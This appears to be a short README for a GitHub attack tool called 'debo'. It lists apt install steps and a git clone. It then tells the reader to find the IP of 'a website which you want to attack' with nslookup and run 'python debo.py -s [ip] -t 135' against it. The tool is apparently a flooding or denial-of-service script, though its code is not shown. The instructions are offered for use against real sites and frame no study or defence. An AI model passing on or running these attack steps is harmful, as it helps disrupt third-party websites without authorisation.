 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/Pavithran-R/debo/

debo need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd debo<br>
$ python debo.py -s [ip Address] -t 135<br>
example:<br>
$ python debo.py -s 123.45.67.89 -t 135<br>

